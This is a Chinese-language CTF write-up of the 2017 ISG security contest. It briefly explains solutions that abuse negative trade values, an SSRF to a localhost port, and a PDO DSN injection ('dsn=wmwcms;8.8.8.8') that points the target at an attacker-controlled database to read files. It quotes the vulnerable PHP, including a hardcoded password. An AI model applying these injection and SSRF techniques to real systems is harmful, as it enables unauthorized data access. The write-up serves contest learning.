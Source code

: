```yaml
---
title: 2017 ISG信息安全技能大赛线上赛 WriteUp
tags:
  - CTF
  - WriteUp
  - 审计
  - 注入
  - 源码
  - 远程数据库
date: 2017-08-31 23:05:27
---
```


## 签到

加群在公告得到一串字符，16进制转字符串得到flag
<!-- more -->

## ISGCoinMarket

很有意思的题，初始给你1元人名币和0.0056个ISG币，你可以发布交易，也可以和别人交易，通过交易得到2000人名币和2000ISG币即可得到flag。

这里主要是没有限制负数，我的解法是创建4个号

u1-&gt;u2   把u1的ISG币刷到4000000，汇率为0.0059，可以看`作u1低价买入ISG`

u3-&gt;u4   把u3的ISG币刷到40000000，人名币为负数，u4则相反

然后利用u4的人名币去买u1的ISG，汇率位0.0054，可以看作`u1高价卖出ISG`

一买一卖u1就挣到了足够的钱

![](http://ovm02pvss.bkt.clouddn.com/2017isg1.png) 

## Remix

可以读取图片并base64解码，并不知道后台逻辑，右键查看源代码提示flag在7827端口（我也不记得是不是这个端口），于是想到SSRF，构造
`?targe=http://localhost:7827`,
将得到的base64解码即可得到flag

## wmwcms

robots.txt提示给了个rar，下载下来是网站源码，审计发现连接数据库时存在注入，
```php
<?php
include_once 'func.php';
if (isset($_REQUEST['dsn'])){
    $dsn = $_REQUEST['dsn'];
} else{
    $dsn = "wmwcms";
}
$dsn = "mysql:dbname={$dsn}";
$username = 'wmwcms';
$password = '%glVYKTkLtQ22';
$options = array(
    PDO::MYSQL_ATTR_INIT_COMMAND => 'SET names utf8',
    );
$dbh = new PDO($dsn, $username, $password, $options);
```
第8行的数据库连接可以由用户控制，于是我们在远程服务器搭建相同的数据库、用户密码也相同、表格和字段也是，然后构造
`dsn=wmwcms;8.8.8.8`

即可让这道题连接到你的服务器，然后使用`action=img`读取数据库中`portrait`字段所在位置的文件，即可读取到flag

## BMP Wannacry-2

大佬说是`bmp隐写`，没做出来，留坑待填

[https://doegox.github.io/ElectronicColoringBook/](https://doegox.github.io/ElectronicColoringBook/)

## 感想

这个比赛难度中上，参赛对象为各大企业安全团队，看到了许多大佬，膜

![](http://ovm02pvss.bkt.clouddn.com/2017isg2.png)